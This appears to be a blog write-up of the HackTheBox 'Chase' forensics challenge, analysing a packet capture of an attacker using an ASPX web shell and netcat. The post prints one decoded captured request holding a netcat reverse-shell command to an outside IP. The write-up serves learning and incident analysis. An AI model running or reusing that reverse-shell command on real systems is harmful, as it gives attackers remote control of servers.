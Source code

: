 ```yaml
---
title: "Chase Forensics Challenge"
date: 2021-10-04T17:30:30
categories:
  - challenge
tags:
  - HacktheBox
  - Forensics
classes: wide
---
```

To diversify my skill-set I have decided to work on CTF style challenges and write about them. The first, a forensics challenge: Chase from [HackTheBox](https://app.hackthebox.eu/challenges/chase)

>*"One of our web servers triggered an AV alert, but none of the sysadmins say they were logged onto it. We've taken a network capture before shutting the server down to take a clone of the disk. Can you take a look at the PCAP and see if anything is up?*""

This is also a test of adding images to these posts, and doing challenge writeups.

---

First we unzip the file we downloaded from HackTheBox.

<img src="/assets/images/chase/chase1.PNG" alt="Unzipping the challenge files.">

We see that we have a `chase.pcapng` which according to Wireshark's [wiki](https://wiki.wireshark.org/Development/PcapNg) is:

>*"The PCAP Next Generation Dump File Format (or pcapng for short) is an attempt to overcome the limitations of the currently widely used (but limited) libpcap format."*

So it is a packet capture dump file. We'll run `strings chase.pcapng` to see what strings we can read inside first.

<img src="/assets/images/chase/chase2.PNG" alt="Running strings on the file.">

We see web requests and responses, dumped by Wireshark. Looking around more we see:

<img src="/assets/images/chase/chase3.PNG" alt="/cmd.aspx + GET /nc64.exe">

We see the running of a `cmd.aspx` file which according to [fileinfo](https://fileinfo.com/extension/aspx) is:

>*"An ASPX file is an Active Server Page Extended (ASPX) file, which is a webpage generated by web servers running the Microsoft ASP.NET framework. It contains one or more scripts written in VBScript or C# code that are processed by the web server into HTML"*

This combined with `GET /nc64.exe` and the classic python SimpleHTTP server indicates that an attacker is running scripts to open `cmd.exe` and trying to transfer netcat in order to setup a reverse shell.

This is seen further when we url decode:

```
path=c%3A%5Cwindows%5Csystem32%5Ccmd.exe&xcmd=%2Fc+c%3A%5Cusers%5Cpublic%5Cnc.exe+22.22.22.7+4444+-e+cmd.exe&Button=Run
#into
path=c:\windows\system32\cmd.exe&xcmd=/c c:\users\public\nc.exe 22.22.22.7 4444 -e cmd.exe&Button=Run
```

We see they get in and run commands through this section of the pcap:

<img src="/assets/images/chase/chase4.PNG" alt="running whoami and ipconfig">

We open up Wireshark and go through the pcap dump, following the various tcp streams. We see this message on stream 6, and a request for a weird `.txt`.

<img src="/assets/images/chase/chase6.PNG" alt="running whoami and ipconfig">

Running the filename through GCHQ's [cyberchef](https://gchq.github.io/CyberChef/) magic algorithm which :

>*"attempts to detect various properties of the input data and suggests which operations could help to make more sense of it."*

Reveals the following:

<img src="/assets/images/chase/chase7.PNG" alt="Success!">

The flag was encoded in base32, we have successfully captured the flag! 
